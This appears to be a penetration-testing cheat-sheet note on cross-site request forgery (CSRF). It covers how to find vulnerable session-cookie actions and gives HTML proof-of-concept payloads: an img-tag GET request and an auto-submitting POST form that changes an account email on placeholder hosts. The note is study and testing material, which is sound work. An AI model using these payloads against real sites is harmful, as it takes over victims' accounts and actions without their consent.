 ![[CSRF.webp]]
# Recon

Identify an application function that can be used to perform some sensitive action on behalf of another user without their knowledge, that relies solely on cookies for tracking user sessions, and that contains request parameters that an attacker can fully determine in advance.

Some examples include:

- changing email address
- changing password
- changing shipping address
- transferring funds

After identification, create an HTML page that performs the request without user interaction:

- For GET requests, place the vulnerable URL inside of an img tag within a src attribute
- For POST requests, create a form that contains all the required parameters and issues a request to the vulnerable URL. JS can be used to automatically submit the form when the page loads.

While you have an authenticated session, you can load the HTML page in the same browser to confirm if the request was processed successfully.
# Example Payloads

You can use the `src` attribute within an `img` tag to craft the CSRF exploit or just use a standalone URL:

```html
<html>
<img src="https://vulnerable-app.com/my-account/change-email?email=TestCSRF@test.com
</html>
```

For POST requests, you need to create a form that contains all the required parameters to submit successfully:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
# No CSRF Protections
